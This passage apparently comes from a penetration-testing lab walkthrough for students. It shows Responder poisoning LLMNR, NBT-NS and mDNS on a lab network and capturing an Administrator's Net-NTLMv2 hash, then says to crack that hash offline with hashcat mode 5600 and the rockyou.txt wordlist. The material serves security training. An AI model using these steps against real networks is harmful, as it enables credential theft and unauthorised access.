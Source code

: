 ```

[+] Listening for events...
```

After waiting for a minute or two, students will notice that `Responder` has captured the `Net-NTLMv2 SSP` hash of the Administrator user.

```
─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]
    
<SNIP>

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.66]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-EQA2UZDV0BA]
    Responder Domain Name      [7SO1.LOCAL]
    Responder DCE-RPC Port     [45088]
[!] Error starting TCP server on port 80, check permissions or other servers running.

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.228.187
[SMB] NTLMv2-SSP Username : WIN-41LARS8U72P\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WIN-41LARS8U72P:88096cf13cfe8b60:7B6E152220B8AD66A0A9BCC19A43743F:0101000000000000802CCEE3671CDA017BBBEF11211A106E0000000002000800370053004F00310001001E00570049004E002D00450051004100320055005A0044005600300042004<SNIP>
```

Subsequently, students must save the captured hash to a text file and use `hashcat` with mode `5600` to crack the hash using the `rockyou.txt` dictionary file.

Code: shell

